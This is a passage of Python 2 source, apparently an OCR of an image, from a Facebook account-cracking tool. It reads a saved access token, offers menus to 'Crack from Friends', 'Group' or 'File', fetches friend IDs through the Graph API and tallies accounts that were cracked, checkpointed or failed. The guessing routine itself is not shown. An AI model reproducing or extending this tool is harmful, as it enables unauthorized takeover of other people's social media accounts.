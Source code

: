     except IOError:
        print '\n\x1b[1;91m[!] Connection busy'
        time.sleep(1)
    except requests.exceptions.ConnectionError:
        print '\x1b[1;91m[\xe2\x9c\x96] No connection'


def hasil():
    print
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    for b in berhasil:
        print b

    for c in cekpoint:
        print c

    print
    print '\x1b[31m[x] Failed \x1b[1;97m--> ' + str(len(gagal))
    keluar()


def super():
    global toket
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    print '║-> \x1b[1;37;40m1. Crack from Friends'
    print '║-> \x1b[1;37;40m2. Crack from Group'
    print '║-> \x1b[1;37;40m3. Crack from File'
    print '║-> \x1b[1;31;40m0. Kembali'
    print '\x1b[1;37;40m║'
    pilih_super()


def pilih_super():
    peak = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
    if peak == '':
        print '\x1b[1;91m[!] Can\'t empty'
        pilih_super()
    else:
        if peak == '1':
            os.system('clear')
            print logo
            print 52 * '\x1b[1;97m\xe2\x95\x90'
            jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id Teman \x1b[1;97m...')
            r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
            z = json.loads(r.text)
            for s in z['data']:
                id.append(s['id'])
